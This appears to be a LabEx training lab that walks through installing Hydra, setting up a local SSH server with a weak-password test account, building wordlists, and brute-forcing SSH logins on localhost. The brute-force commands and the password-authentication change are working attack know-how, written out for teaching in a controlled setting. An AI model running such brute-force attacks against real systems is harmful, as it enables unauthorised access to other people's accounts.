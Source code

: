 # Install Hydra

In this step, we will install Hydra, a powerful password-cracking tool used for brute-force attacks against various network services. Hydra is particularly useful for penetration testing as it can systematically try different username and password combinations to gain access to secured systems. It supports multiple protocols including SSH (which we'll use in this lab), FTP, HTTP, and more.

1. First, open the terminal in your LabEx VM environment. The terminal is your primary interface for running commands in Linux. Ensure you're in the default working directory where we'll perform all our lab work:
    
    ```bash
    cd ~/project
    ```
    
2. Before installing any new software, it's good practice to update your package list. This ensures you'll get the latest available version of Hydra and all its dependencies:
    
    ```bash
    sudo apt update
    ```
    
3. Now we'll install Hydra using the apt package manager, which handles software installation on Debian-based systems like Ubuntu. The `-y` flag automatically confirms the installation:
    
    ```bash
    sudo apt install -y hydra
    ```
    
4. After installation, let's verify Hydra is properly installed by checking its version. The `head -n 1` command shows just the first line of output, which contains the version information:
    
    ```bash
    hydra -h | head -n 1
    ```
    
    ![Output showing Hydra version](https://file.labex.io/namespace/df87b950-1f37-4316-bc07-6537a1f2c481/cybersecurity/lab-brute-force-ssh-in-hydra/assets/20250429-11-14-51-bU7gf0qS.png)
    
    You should see output similar to:
    
    ```
    Hydra v9.2 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.
    ```
    
5. Hydra also offers a graphical interface version for those who prefer GUI tools. While we'll be using the command-line version in this lab, you can optionally install the GTK+ GUI version with:
    
    ```bash
    sudo apt install -y hydra-gtk
    ```
    
    ![Output showing Hydra version](https://file.labex.io/namespace/df87b950-1f37-4316-bc07-6537a1f2c481/cybersecurity/lab-brute-force-ssh-in-hydra/assets/20250429-11-13-47-Ra4Av9MF.png)
# Set Up a Target SSH Server

In this step, we will configure a local SSH server that will serve as our target for password cracking in subsequent steps. This allows us to practice penetration testing techniques in a controlled environment. SSH (Secure Shell) is a protocol used for secure remote login between computers, and we'll be setting up a vulnerable version for learning purposes.

1. First, ensure you're in the default working directory. This is important because we want all our lab files to be organized in one place:
    
    ```bash
    cd ~/project
    ```
    
2. Install the OpenSSH server package. This software will turn your machine into an SSH server that can accept remote connections:
    
    ```bash
    sudo apt install -y openssh-server
    ```
    
3. Create a dedicated test user account with a weak password (for demonstration purposes only). In real-world scenarios, weak passwords like this are exactly what attackers look for:
    
    ```bash
    sudo useradd -m testuser
    echo "testuser:password123" | sudo chpasswd
    ```
    
4. Configure SSH to allow password authentication (temporarily for this lab). By default, many systems disable password authentication for security reasons, but we're enabling it here to demonstrate how brute force attacks work:
    
    ```bash
    sudo sed -i 's/PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config
    ```
    
5. Restart the SSH service to apply changes. Services often need to be restarted after configuration changes take effect:
    
    ```bash
    sudo service ssh restart
    ```
    
6. Verify the SSH server is running. This command checks if our SSH server is properly active and listening for connections:
    
    ```bash
    sudo service ssh status
    ```
    
    You should see output indicating the service is active (running). If not, there may have been an error in previous steps that needs troubleshooting.
    
7. Test the SSH connection locally. This final check confirms everything is working before we proceed to the attack phase:
    
    ```bash
    ssh testuser@localhost -o StrictHostKeyChecking=no
    ```
    
    When prompted, enter the password `password123`. After successful login, type `exit` to return to your main session. The `-o StrictHostKeyChecking=no` option prevents SSH from asking you to verify the server's fingerprint, which is acceptable for this lab environment.
    
    ![Local SSH connection test result](https://file.labex.io/namespace/df87b950-1f37-4316-bc07-6537a1f2c481/cybersecurity/lab-brute-force-ssh-in-hydra/assets/20250429-11-15-45-TTgJFCkQ.png)

```
sudo sed -i 's/PasswordAuthentication no/PasswordAuthentication yes/' /etc/ssh/sshd_config
```
This command modifies the SSH server configuration to enable password authentication. Here's a breakdown:

- `sudo`: Runs the command with superuser privileges, necessary for modifying system files.
- `sed`: A stream editor used for parsing and transforming text.
- `-i`: Edits the file in place.
- `'s/PasswordAuthentication no/PasswordAuthentication yes/'`: This is the substitution command. It searches for the line containing `PasswordAuthentication no` and replaces it with `PasswordAuthentication yes`.
- `/etc/ssh/sshd_config`: The path to the SSH server configuration file.

# Prepare a Username and Password List

In this step, we will create text files containing potential usernames and passwords that Hydra will use to attempt SSH authentication. These files are essential for dictionary-based brute-force attacks. A dictionary attack works by systematically trying all possible combinations of usernames and passwords from predefined lists, which is why preparing good lists is crucial.

1. First, ensure you're in the default working directory. This helps keep your project files organized and makes it easier to reference them later:
    
    ```bash
    cd ~/project
    ```
    
2. Create a username list file using the nano text editor. Common usernames are often tried first in brute-force attacks because many systems use default or predictable usernames:
    
    ```bash
    nano usernames.txt
    ```
    
    Add these common usernames (press Ctrl+O to save, then Ctrl+X to exit):
    
    ```
    admin
    root
    testuser
    user
    guest
    ```
    
3. Create a password list file. Weak passwords like these are frequently used and are often the first targets in security testing:
    
    ```bash
    nano passwords.txt
    ```
    
    Add these common passwords:
    
    ```
    password
    password123
    123456
    qwerty
    letmein
    ```
    
4. Verify the files were created correctly by displaying their contents. This confirmation step ensures there are no typos or formatting issues in your lists:
    
    ```bash
    cat usernames.txt
    cat passwords.txt
    ```
    
    You should see the lists you created displayed in the terminal.
    
5. (Optional) Generate additional password variations using crunch. This tool helps create more comprehensive password lists by automatically generating combinations based on specified patterns:
    
    ```bash
    sudo apt install -y crunch
    crunch 4 6 0123456789 -o num_passwords.txt
    ```
    
    This creates numeric passwords between 4-6 characters length. The command specifies minimum length (4), maximum length (6), and the character set (digits 0-9).

# Run Hydra Against SSH

In this step, we will use Hydra to perform a brute-force attack against our local SSH server. Brute-forcing is a method of trying many username/password combinations until finding the correct one. We'll use the wordlists we prepared earlier to automate this process.

1. First, navigate to the project directory containing your wordlists. This ensures Hydra can find the files we created:
    
    ```bash
    cd ~/project
    ```
    
2. Now we'll execute Hydra with specific parameters. The command structure tells Hydra what to attack and how. Let's break it down:
    
    ```bash
    hydra -L usernames.txt -P passwords.txt ssh://localhost -t 4 -vV
    ```
    
    Explanation of parameters:
    
    - `-L usernames.txt`: Points to our list of possible usernames
    - `-P passwords.txt`: Specifies our password dictionary file
    - `ssh://localhost`: Targets the SSH service on this machine
    - `-t 4`: Controls speed by limiting to 4 simultaneous attempts
    - `-vV`: Shows detailed progress in the terminal
3. As Hydra runs, it will display each attempt in real-time. When it finds valid credentials, they'll appear clearly in the output like this:
    
    ```
    [22][ssh] host: localhost   login: testuser   password: password123
    ```
    
    ![Hydra run results display](https://file.labex.io/namespace/df87b950-1f37-4316-bc07-6537a1f2c481/cybersecurity/lab-brute-force-ssh-in-hydra/assets/20250429-11-17-30-48841Kui.png)
    
4. (Optional) To keep a permanent record of the results, we can save them to a file. This is useful for documentation or further analysis:
    
    ```bash
    hydra -L usernames.txt -P passwords.txt ssh://localhost -t 4 -o results.txt
    ```
    
5. After the scan completes, you can view the saved results with:
    
    ```bash
    cat results.txt
    ```